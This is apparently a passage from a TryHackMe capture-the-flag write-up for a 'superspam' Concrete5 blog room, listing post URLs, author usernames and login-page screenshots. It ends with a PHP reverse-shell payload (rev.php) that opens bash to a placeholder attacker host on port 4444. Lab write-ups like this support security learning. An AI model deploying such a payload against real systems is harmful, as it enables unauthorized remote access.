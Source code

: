 <br>

<h3>/concrete5/index.php/blog/a-beautiful-blog</h3>
<p>

- Apr 9, 2014 4:30 PM<br>
- Adam_Admin</p>

<h3>superspam.thm/concrete5/index.php/blog/linux-bloggerscom</h3>
<p>

- Apr 9, 2021 2:01 PM<br>
- Adam_Admin</p>

<img width="1121" height="359" alt="image" src="https://github.com/user-attachments/assets/041269a6-9536-4841-bbfc-ee62e0850687" />

<h3>superspam.thm/concrete5/index.php/blog/Lorem</h3>
<p>

- Apr 9, 2021 2:08 PM<br>
- Donald_Dump</p>

<h3>superspam.thm/concrete5/index.php/blog/Ipsum</h3>
<p>

- Apr 9, 2021 2:16 PM<br>
- Lucy_Loser</p>

<h3>superspam.thm/concrete5/index.php/blog/neque-porro-quisquam</h3>
<p>

- Apr 9, 2021 2:17 PM<br>
- Benjamin_Blogger</p>

<br>

<h3>/concrete5/index.php/login</h3>

<img width="1121" height="504" alt="image" src="https://github.com/user-attachments/assets/c38d3e57-7902-41d6-a584-56cdd7872650" />

<img width="1121" height="660" alt="image" src="https://github.com/user-attachments/assets/9edaff46-ab6e-4492-b3a9-a80ae1f4ebf2" />

<br>

<h3>Concrete5</h3>
<p>https://github.com/RosanaFSS/Cybersecurity-Journey-TryHackMe/new/CTFs-%26-Infos</p>

<img width="1010" height="683" alt="image" src="https://github.com/user-attachments/assets/da0bcc7b-9dca-47a7-b4fd-3154027f214e" />

<br>

<h3>Reverse Shell</h3>

<p>

- crafted a <code>rev.php</code></p>

```bash
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/AttackIP/4444 0>&1'");?>
```
